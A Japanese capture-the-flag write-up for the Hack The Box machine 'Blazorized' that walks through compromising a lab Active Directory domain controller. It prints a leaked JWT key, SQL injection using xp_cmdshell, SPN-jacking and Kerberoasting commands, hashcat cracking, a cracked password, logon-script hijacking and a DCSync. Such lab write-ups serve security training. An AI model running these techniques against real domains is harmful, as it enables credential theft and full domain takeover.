

# Blazorized Writeup


# Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Mon Jul  1 18:42:12 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/HTB/machine/Windows/Blazorized/results/10.10.11.22/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/HTB/machine/Windows/Blazorized/results/10.10.11.22/scans/xml/_full_tcp_nmap.xml 10.10.11.22
Increasing send delay for 10.10.11.22 from 0 to 5 due to 328 out of 819 dropped probes since last increase.
Increasing send delay for 10.10.11.22 from 5 to 10 due to 11 out of 24 dropped probes since last increase.
adjust_timeouts2: packet supposedly had rtt of -60709 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -60709 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -79350 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -79350 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -104503 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -104503 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -133399 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -133399 microseconds.  Ignoring time.
Nmap scan report for 10.10.11.22
Host is up, received user-set (0.15s latency).
Scanned at 2024-07-01 18:42:13 JST for 1325s
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blazorized.htb
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-07-01 09:53:39Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1115.00; RC0+
|_ssl-date: 2024-07-01T09:57:01+00:00; -7m14s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.22\BLAZORIZED: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.22\BLAZORIZED: 
|     Instance name: BLAZORIZED
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|     TCP port: 1433
|_    Clustered: false
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-01T04:50:50
| Not valid after:  2054-07-01T04:50:50
| MD5:   b4b4:9921:3d12:afb2:c637:1538:ad30:7fa9
| SHA-1: a2d6:81ea:0a5e:9837:4ccc:2664:c875:d948:5304:d3c6
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQGc4e/XIFbYJMBrvs7/2N7zANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwNzAxMDQ1MDUwWhgPMjA1NDA3MDEwNDUwNTBaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBAM2icENs
| iuGpb04xPjwYEnPEFLaMDVrT4zSKpDOCg0tfZcP2sXSg6jS3FOlHeOjw5uhSMxau
| z+niSRYmgAfQJODeaivVUxXIj6oZqhN1AdUnatHFAxe+AEGsrXHNZuOD9y6R1ktr
| HR0Dgn59wwHU93Xv/HIlM2zcpA7ZoaXhdd2i+UWZw0j5xwrviVKZZFAim/HF45Ej
| xLCOHklqp7GX/OiIMGFX7V94hI7qQIQttwKOlgNTRxaJ259cQkXvD+OwG4QKTC43
| dG8GRn9fDG1YotERDjZkByvCl+TO/TUbPd4NwEXGW9mzbwcem0HVPnWmoocOtb3G
| QBZZPVW28g431N4CqsNd7/oTxjDgntr0RaAByFweREWL0bcj1HGXqM7n70s/T0og
| 1A2EItjodA+b1DpI9zKaBdxZoo1R3autRXdrM1IuO9d0YIj/LNyAnani0NeobsL+
| nAoaJwiUDgFcK9yOOzxGO1gG3dWtDS2Qr8hKVn2uDO2DSEr5nn+C/GVPEQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQB57WwxZ/Gn2dL4u73waDTC/OQjXYeXDvI3s8CS
| sf1oarvloqh+CMaQXrdxGAr9Q+HDg4TjTbITglBljleZ0xXhGbQ+8hWWPp00A5bq
| q04M62ekeCaW75V/lr2NTV2iEFmByN1ucesYPrVy2STHq8hMC9jNK4Yx2x7XMt40
| THEJJPzVsj3aTIoBt9+QlWwUOIqIhXmSpXJYSXx43b7rLJdoiLCfx1FnRIBzTm/h
| eSJ3vE1JYqA4yOHlZjfrZTispp5AwOiVeOKKSUPPOEg7ejw28kqoPzefH7oQrmuK
| SagHCTZ2Apbjwi39QCfGwXDGRlM2V7CXGL2c6Vpr9OP+LnuVQm3qcJJpJQegj6LX
| j4CxrnzLPaM/sJWl4WsiJQCWOhj7Kaxzd7FB9jBeZQCy0VeWtKtxoCqRUd+21RVC
| pWbvOQERGiuPBCY8jycFFUwCXIIzCSAvv/AsnAYl1Fl6ftrtf0IDZR1DRJGdfm9F
| Bv+Z2AbNEgP/WI946vjh2FTzStY=
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: blazorized.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49776/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-01T04:50:50
| Not valid after:  2054-07-01T04:50:50
| MD5:   b4b4:9921:3d12:afb2:c637:1538:ad30:7fa9
| SHA-1: a2d6:81ea:0a5e:9837:4ccc:2664:c875:d948:5304:d3c6
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQGc4e/XIFbYJMBrvs7/2N7zANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwNzAxMDQ1MDUwWhgPMjA1NDA3MDEwNDUwNTBaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBAM2icENs
| iuGpb04xPjwYEnPEFLaMDVrT4zSKpDOCg0tfZcP2sXSg6jS3FOlHeOjw5uhSMxau
| z+niSRYmgAfQJODeaivVUxXIj6oZqhN1AdUnatHFAxe+AEGsrXHNZuOD9y6R1ktr
| HR0Dgn59wwHU93Xv/HIlM2zcpA7ZoaXhdd2i+UWZw0j5xwrviVKZZFAim/HF45Ej
| xLCOHklqp7GX/OiIMGFX7V94hI7qQIQttwKOlgNTRxaJ259cQkXvD+OwG4QKTC43
| dG8GRn9fDG1YotERDjZkByvCl+TO/TUbPd4NwEXGW9mzbwcem0HVPnWmoocOtb3G
| QBZZPVW28g431N4CqsNd7/oTxjDgntr0RaAByFweREWL0bcj1HGXqM7n70s/T0og
| 1A2EItjodA+b1DpI9zKaBdxZoo1R3autRXdrM1IuO9d0YIj/LNyAnani0NeobsL+
| nAoaJwiUDgFcK9yOOzxGO1gG3dWtDS2Qr8hKVn2uDO2DSEr5nn+C/GVPEQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQB57WwxZ/Gn2dL4u73waDTC/OQjXYeXDvI3s8CS
| sf1oarvloqh+CMaQXrdxGAr9Q+HDg4TjTbITglBljleZ0xXhGbQ+8hWWPp00A5bq
| q04M62ekeCaW75V/lr2NTV2iEFmByN1ucesYPrVy2STHq8hMC9jNK4Yx2x7XMt40
| THEJJPzVsj3aTIoBt9+QlWwUOIqIhXmSpXJYSXx43b7rLJdoiLCfx1FnRIBzTm/h
| eSJ3vE1JYqA4yOHlZjfrZTispp5AwOiVeOKKSUPPOEg7ejw28kqoPzefH7oQrmuK
| SagHCTZ2Apbjwi39QCfGwXDGRlM2V7CXGL2c6Vpr9OP+LnuVQm3qcJJpJQegj6LX
| j4CxrnzLPaM/sJWl4WsiJQCWOhj7Kaxzd7FB9jBeZQCy0VeWtKtxoCqRUd+21RVC
| pWbvOQERGiuPBCY8jycFFUwCXIIzCSAvv/AsnAYl1Fl6ftrtf0IDZR1DRJGdfm9F
| Bv+Z2AbNEgP/WI946vjh2FTzStY=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-07-01T09:57:01+00:00; -7m14s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.22:49776: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.22:49776: 
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|_    TCP port: 49776
49783/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows Server 2016 (93%), Microsoft Windows 10 1709 - 1909 (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows Vista SP1 (91%), Microsoft Windows Longhorn (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 Update 1 (90%), Microsoft Windows Server 2016 build 10586 - 14393 (90%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/1%OT=53%CT=1%CU=33052%PV=Y%DS=2%DC=T%G=Y%TM=66827
OS:F22%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TS=U)SEQ(SP=104%GCD=1
OS:%ISR=105%II=I%TS=U)SEQ(SP=104%GCD=1%ISR=105%CI=RD%II=I%TS=U)SEQ(SP=104%G
OS:CD=1%ISR=105%TI=RD%TS=U)SEQ(SP=104%GCD=1%ISR=105%TI=RD%CI=RD%TS=U)OPS(O1
OS:=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53A
OS:NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=8
OS:0%W=FFFF%O=M53ANW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F
OS:=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%
OS:T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=O%A=O%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=
OS:AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%
OS:RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 49214/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 46880/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 35591/udp): CLEAN (Failed to receive data)
|   Check 4 (port 56268/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: -7m14s, deviation: 0s, median: -7m14s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-07-01T09:56:52
|_  start_date: N/A

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   150.41 ms 10.10.16.1
2   386.69 ms 10.10.11.22

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  1 19:04:18 2024 -- 1 IP address (1 host up) scanned in 1325.39 seconds
```

`blazorized.htb` `dc1.blazorized.htb`というドメインを見つけたのでhostsファイルに追加

```
10.10.11.22	blazorized.htb dc1.blazorized.htb
```

80番ポートが開いているのでサイトにアクセスしてみる


アイデア、メモ、知識、考察を育むための文書コレクションサイトらしい(Qiitaみたいなやつ)

Blazor WebAssemblyを使用しているらしい

サブドメインがないか調べてみる


`admin`が見つかったのでhostsファイルに追加してアクセスする


ログインページが出てきたが認諸情報がないのでログインすることができない

burp suiteを見てみると http://blazorized.htb で大量にdllが読み込まれていることが分かった。


## JWT 認証

http://blazorized.htb/_framework/blazor.boot.json にdllが大量に見つかった。


blazorizedのdllが4つ見つかった。怪しそうなのでダウンロードしてdotpeekで逆コンパイルしてみる


`Blazorized.Helpers.dll` を逆コンパイルするとJWTというクラスがあることが分かった。どうやらJWT(json web token)を作成するクラスらしく、tokenを作成するための以下の情報を得た


```c#
private const long EXPIRATION_DURATION_IN_SECONDS = 60;
private static readonly string jwtSymmetricSecurityKey = "8697800004ee25fc33436978ab6e2ed6ee1a97da699a53a53d96cc4d08519e185d14727ca18728bf1efcde454eea6f65b8d466a4fb6550d5c795d9d9176ea6cf021ef9fa21ffc25ac40ed80f4a4473fc1ed10e69eaf957cfc4c67057e547fadfca95697242a2ffb21461e7f554caa4ab7db07d2d897e7dfbe2c0abbaf27f215c0ac51742c7fd58c3cbb89e55ebb4d96c8ab4234f2328e43e095c0f55f79704c49f07d5890236fe6b4fb50dcd770e0936a183d36e4d544dd4e9a40f5ccf6d471bc7f2e53376893ee7c699f48ef392b382839a845394b6b93a5179d33db24a2963f4ab0722c9bb15d361a34350a002de648f13ad8620750495bff687aa6e2f298429d6c12371be19b0daa77d40214cd6598f595712a952c20eddaae76a28d89fb15fa7c677d336e44e9642634f32a0127a5bee80838f435f163ee9b61a67e9fb2f178a0c7c96f160687e7626497115777b80b7b8133cef9a661892c1682ea2f67dd8f8993c87c8c9c32e093d2ade80464097e6e2d8cf1ff32bdbcd3dfd24ec4134fef2c544c75d5830285f55a34a525c7fad4b4fe8d2f11af289a1003a7034070c487a18602421988b74cc40eed4ee3d4c1bb747ae922c0b49fa770ff510726a4ea3ed5f8bf0b8f5e1684fb1bccb6494ea6cc2d73267f6517d2090af74ceded8c1cd32f3617f0da00bf1959d248e48912b26c3f574a1912ef1fcc2e77a28b53d0a";
private static readonly string superAdminEmailClaimValue = "superadmin@blazorized.htb";
private static readonly string postsPermissionsClaimValue = "Posts_Get_All";
private static readonly string categoriesPermissionsClaimValue = "Categories_Get_All";
private static readonly string superAdminRoleClaimValue = "Super_Admin";
private static readonly string issuer = "http://api.blazorized.htb";
private static readonly string apiAudience = "http://api.blazorized.htb";
private static readonly string adminDashboardAudience = "http://admin.blazorized.htb";
```

この情報を使ってtokenを作成して[JWT認証](https://qiita.com/asagohan2301/items/cef8bcb969fef9064a5c#3-jwt%E3%81%AE%E4%BD%9C%E3%82%8A%E6%96%B9)でadminページにアクセスできるかもしれない

https://jwt.io/ でJWTを作成できるので使用する. 


作成したjwtを開発者モードを開いてローカルストレージにロードする


ページをリロードすると管理者ページにアクセスできた

# MSSQL Injection



写真の通りこのページはAPIを使用せずに直接データベースを操作することができるらしい。SQL Injectionが使えそう

Windowsマシンであることが分かっているのでデータベースはMSSQLを使用していると考えられる

カテゴリー名が重複しているか確認する機能があった。ここでデータベースに問い合わせをしているっぽい


試しに条件が常に真となるように文を追加する


SQL Injection が機能することが分かった。

MSSQL にはコマンドを実行できる `xp_cmdshell` という機能があるのでこれでリバースシェルをとる

[HackTricks 1433 - Pentesting MSSQL - Microsoft SQL Server Execute OS Commands](https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

HackTricksにあった以下のペイロードでためす

```mssql
EXEC master..xp_cmdshell 'ping -c 3 10.10.16.16'
```

ping を打ってtcpdumpでパケットをキャプチャで切るか試したができなかった。

そのままpowershellのりバースシェルを試してみた


`nu_1055` としてシェルを取得できた


user.txt ゲット

# nu_1055

`C:\Users` にて複数のユーザーが存在していることが分かった。 `RSA_4810`, `SSA_6010` に横移動する必要がありそう


これから横移動などをしやすくするためC2セッションを確立し、いろいろと融通が利くようにする

Sliver C2 を使用する


インプラントを作成


作成したペイロードをダウンロード


Sliverでリスナーを起動する


インプラントを実行


C2 セッションを確立することができた


## BloodHound

BloodHoundでの列挙をしたいので `SharpHound.exe` をアップロードして実行する


作成されたzipファイルをダウンロードしてBloodHoundにアップロードする


ユーザー `NU_1055` が ユーザー `RSA_4810` に対して `WriteSPN` の権限を持っていることが分かった。

この権限を悪用することで対象のサービスアカウントの認諸情報を盗むことができるSPN-jackingを行える


## SPN-jacking

PowerView.ps1 をアップロードして読みこませておく


SPNをRSA_4810に追加

```
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='spn/spn-jacking'}
Get-SPNTicket -SPN spn/spn-jacking
```

SliverにはRubeusを実行できるパッケージがあるのでそれを使用してkerberosting攻撃を実行

```
rubeus kerberoast 
```

チケットを取得することができた


チケットをファイルに保存することもできる


`Get-DomainSPNTicket` を使用して取得することもできる

```powershell
$ticket = Get-DomainSPNTicket -SPN spn/spn-jacking
$ticket.Hash # ハッシュのみ
$ticket | Format-List -Property SamAccountName, DistinguishedName, ServicePrincipalName, Hash # すべて出力
```

```powershell
Get-DomainSPNTicket -SPN spn/spn-jacking | Select-Object -ExpandProperty Hash
```


チケットをファイルに保存してhashcatで解析する

```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```


解析に成功し、パスワードを取得した

```
(Ni7856Do9854Ki05Ng0005 #)
```

取得したパスワードを使用して `evil-winrm` でログインする


RSA_4810に横移動することができた

# RSA_4810

RSA_4810に横移動することができたのでもう一つのユーザー `SSA_6010` を次の目標にする

BloodHoundでRSA_4810について調べてみたが使えそうな情報は見つからなかった。

RSA_4810が持っているACLを検索する

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ $_.IdentityReferenceName -match "RSA_4810"}
```


RSA_4810はSSA_6010のスクリプトパスを変更できることが分かった。

`Get-NetUser` で `SSA_6010` について調べる


`3073`回ログオンしていることが分かった


もう一度実行するとログオン回数が増加いていることが分かる。どうやら定期的にSSA_6010はログオンしていることが分かる。

ユーザーのログオンスクリプトがおかれている `C:\Windows\SYSVOL\sysvol\blazorized.htb\script\A32FF3AEAA23` に

カスタムバッチスクリプトを作成する。


作成したスクリプトをスクリプトパスに追加する

```powershell
Set-ADUser -Identity SSA_6010 -ScriptPath "A32FF3AEAA23\login.bat"
```

リスナーを起動してしばらく待つと `SSA_6010` のシェルを取得することができた。


# SSA_6010

あたらしいインプラントを作成する


インプラントをダウンロードして実行


## DCSync攻撃

`SSA_6010` にはドメインに対するDCSyncの権限をもっている


SliverのMimikatzパッケージをを使用してDCSync攻撃を実行する


DCSync攻撃の実行に成功し `Administrator` の NTLM Hashを取得した


取得したハッシュ値を使用してevil-winrmでログインすることができた


root.txtを取得
